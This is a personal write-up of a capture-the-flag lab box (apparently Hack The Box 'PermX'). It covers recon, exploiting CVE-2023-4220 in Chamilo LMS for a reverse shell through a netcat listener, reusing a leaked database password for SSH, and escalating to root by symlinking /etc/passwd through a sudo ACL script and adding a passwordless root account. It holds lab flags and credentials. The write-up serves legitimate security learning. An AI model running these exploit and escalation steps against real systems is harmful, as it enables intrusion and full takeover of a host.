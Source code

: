 **Target:**
```php
10.10.11.23
```

Nmap reveals port 80 with a webpage.

Gobuster doesn't find any directories so i try a subdomain search and find `lms`

I add both addresses to the host file:
`permx.htb` and `lms.perx.htb`

This takes me to a login page.

Wappalyzer shows php as one of the services as well as apache which lines up with the namp scan. 

I try telling the app that i lost my password for user admin, which gives me a possible username:
`This platform was unable to send the email. Please contact [Davis Miller](mailto:admin@permx.htb) for more information.`

Find robot.txt with gobuster on the lms subdomain

```php
# robots.txt
User-Agent: *
# Directories
Disallow: /app/
Disallow: /bin/
Disallow: /documentation/
Disallow: /home/
Disallow: /main/
Disallow: /plugin/
Disallow: /tests/
Disallow: /vendor/
# Files
Disallow: /license.txt
Disallow: /README.txt
Disallow: /whoisonline.php
Disallow: /whoisonlinesession.php
```


Administrator : [Davis Miller](mailto:admin@permx.htb)
[Powered by Chamilo](http://lms.permx.htb/) © 2024

**/documentation:**
Chamilo 1.11 - Documentation

Exploits:
https://github.com/Rai2en/CVE-2023-4220-Chamilo-LMS

https://starlabs.sg/advisories/23/23-4220/

I check the vulnerable path to see if it exposes any files:

http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/

![[Pasted image 20240831123247.png]]

Exploit test:

```php
python3 main.py -u http://lms.permx.htb/ -a scan
```

netcat 

```php
rlwrap nc -nlvp 45888
```

Webshell
```php
python3 main.py -u http://lms.permx.htb/chamilo -a revshell
```

Usage:
- Start nc chosen port `rlwrap nc -nlvp 45888`
- Shell option 1 -> fem-rev.php
- Shell option 2 -> fem-rev.sh
- Enter my IP
- Enter my port 

_I can't remember if i took away the `/chamilio`, just bare that in mind if it's not working, and try to change it if needed._

I transfer `pspy` and `linpeas.sh` to the WebServer.

LIN
Linux version 5.15.0-113-generic

Active Ports
127.0.0.1:3306

User
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
mtz 10.10.14.40

/etc/mysql/mariadb.cnf

/tmp/tmux-33
https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-shell-sessions

FTP_PASSWORD=gaufrette

/usr/share/php7.4-common/common/ftp.ini

/etc/skel/.bashrc

/var/www/chamilo/main/inc/lib/javascript/bigupload/files/webshell.php
/var/www/chamilo/main/inc/lib/javascript/bigupload/files/revshell.sh

![[Pasted image 20240914073925.png]]

==03F6lY3uXAP2bkW8==

Loos like the pass is for the maria-db, but i'll also try it with the user that we found.

mtz:03F6lY3uXAP2bkW8

I'm able to login as mtz with the password we found, in the home dir is the user.txt.

Flag:
f215079744b950e656c51ffb5225c2ba

![[Pasted image 20240914074553.png]]

The script lets me give read write execute permissions so:

- Link /etc/passwd 

```php
ln -s /etc/passwd /home/mtz/<NEW-FILE>
```

- Run the script

```php
sudo /opt/acl.sh mtz rw /home/mtz<FILE>
```

- Add new root user with a text editor

example

```php
root:x:0:0:root:/root:/bin/bash
```

Add new root account with no password

```php
zod::0:0:zod:/root:/bin/bash
```

Flag:
0bd2698d4d4195bb84ff4b3d78a67153

